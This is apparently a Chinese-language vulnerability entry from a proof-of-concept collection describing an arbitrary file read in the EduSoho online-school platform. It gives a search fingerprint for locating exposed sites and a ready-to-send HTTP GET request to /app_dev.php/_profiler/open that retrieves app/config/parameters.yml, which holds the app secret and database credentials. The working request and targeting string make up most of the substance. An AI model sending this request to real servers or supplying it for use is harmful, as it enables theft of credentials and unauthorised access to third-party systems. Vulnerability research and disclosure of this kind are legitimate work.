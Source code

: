 # EduSoho 教培系统 app_dev.php 任意读取漏洞

## 漏洞描述

EduSoho 教培系统是由杭州阔知网络科技研发的开源网校系统。通过向 /app_dev.php/_profiler/open 端点发送可以读取到 app/config/parameters.yml 文件的内容，拿到该文件中保存的 secret 值以及数据库账号密码等敏感信息

## 漏洞影响

<a-checkbox checked>EduSoho 教培系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Powered By EduSoho"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1697684628422-72f32fbc-e9c5-48c5-8f19-e5e50f7fff83.png)

验证POC

```php
GET /app_dev.php/_profiler/open?file=app/config/parameters.yml HTTP/1.1
Host:  
Accept: */*
Content-Type: application/x-www-form-urlencoded
```

![img](../../../.vuepress/public/img/1697684710859-d5223cfd-a9fa-4198-a019-54f523242b8f.png)